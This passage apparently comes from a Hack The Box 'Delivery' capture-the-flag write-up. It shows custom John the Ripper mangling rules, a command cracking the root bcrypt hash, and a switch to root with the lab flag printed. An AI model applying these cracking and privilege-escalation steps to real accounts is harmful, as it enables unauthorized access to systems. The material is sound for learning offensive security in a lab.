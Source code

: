 ```bash
$2a$10$VM6EeymRxJ29r8.......................................:PleaseSubscribe!<redacted>
...
```

The same can be achieved also using john-the-ripper and john custom rules:
```bash
┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ sudo nano /etc/john/john.conf
...
[List.Rules:Custom]
:
# Add one number
$[0-9]
# Add one number and a sybol
$[0-9]$[$%^&*()\\-_+=|\<>\[\]{}#@/~]
# Add two number
$[0-9]$[0-9]
# Add two number and a symbol
$[0-9]$[0-9]$[$%^&*()\\-_+=|\<>\[\]{}#@/~]
...

┌──(kali㉿kali)-[~/…/HTB/box/Delivery/loot]
└─$ john root.passwd --wordlist=base_passwords --rules=Custom --fork=5                
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Node numbers 1-5 of 5 (fork)
Each node loaded the whole wordfile to memory
Press 'q' or Ctrl-C to abort, almost any other key for status
PleaseSubscribe!<redacted> (root)
...
```

Once obtained the root password it was possible to change the account to the root one:
```bash
maildeliverer@Delivery:~$ su root
Password:
root@Delivery:/home/maildeliverer# whoami && hostname && cat /root/root.txt && ip a
root
Delivery
1df26a288718072c85da8349534ed570
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: ens192: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:cb:0a brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.222/24 brd 10.10.10.255 scope global ens192
       valid_lft forever preferred_lft forever
    inet6 dead:beef::250:56ff:feb9:cb0a/64 scope global dynamic mngtmpaddr
       valid_lft 86036sec preferred_lft 14036sec
    inet6 fe80::250:56ff:feb9:cb0a/64 scope link
       valid_lft forever preferred_lft forever
```
